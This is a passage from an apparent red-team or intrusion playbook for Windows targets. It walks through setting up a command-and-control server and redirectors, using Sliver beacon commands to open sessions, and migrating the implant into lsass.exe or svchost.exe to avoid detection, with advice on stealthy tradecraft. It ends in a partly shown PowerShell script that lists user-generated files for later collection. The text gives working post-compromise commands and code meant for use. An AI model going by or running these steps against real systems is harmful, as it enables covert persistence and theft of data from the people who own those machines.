 Establish the Raven Server

Identify Proxy Candidates

Stand up the Redirectors

Stand up the Raven Server (with https if possible)

Drop into a Sliver Session Shell

If your previous session Closed:

If your previous session closed, we will use our beacon to generate a session. This keeps our beacons hidden and less interesting longer, also following good tradecraft by delegating our longer haul agent beacons to create short haul agent sessions. Always delegate down the chain, not up.

# in sliver-server, show current beacons
beacons
use <BEACONID>
execute ping.exe localhost -n 15

A session should reach back to us that we can use

Migrate processes once more

Ensure that you use processes that stay there for a long time, for instance, Explorer.exe is a bad choice if a user is running it, because users don't often keep the file explorer open very long. Low PID number svchost.exe processes are your friend. lsass.exe is okay as well.
```
# in sliver-server
use <SESSIONID>
ps
migrate -p <PID>
migrate -p <PID>
migrate -p <PID>
```
Enumerate all user generated files
```
# Enumerate Non-Native Files on a Windows Machine
# Output: C:\files.txt 
# Excludes files in Windows-native folders, including specific native folders in Program Files
# Includes third-party files in Program Files (e.g., Mozilla Firefox)
# Compatible with PowerShell 5.1

# Define output file
$OutputFile = "C:\Users\Public\Documents\files.txt"
$Log = @()

# Define system paths to exclude entirely
$SystemPaths = @(
    "C:\Windows\*",
    "C:\ProgramData\*",
    "C:\Users\*\AppData\Local\Microsoft\*",
    "C:\Users\*\AppData\Roaming\Microsoft\*"
)

# Define Windows-native folders in C:\Program Files and C:\Program Files (x86)
$NativeProgramFilesFolders = @(
    "Common Files",
    "Internet Explorer",
    "Microsoft",
    "Microsoft Office",
    "Microsoft Office 15",
    "Microsoft Office 16",
    "Microsoft.NET",
    "MSBuild",
    "Reference Assemblies",
```
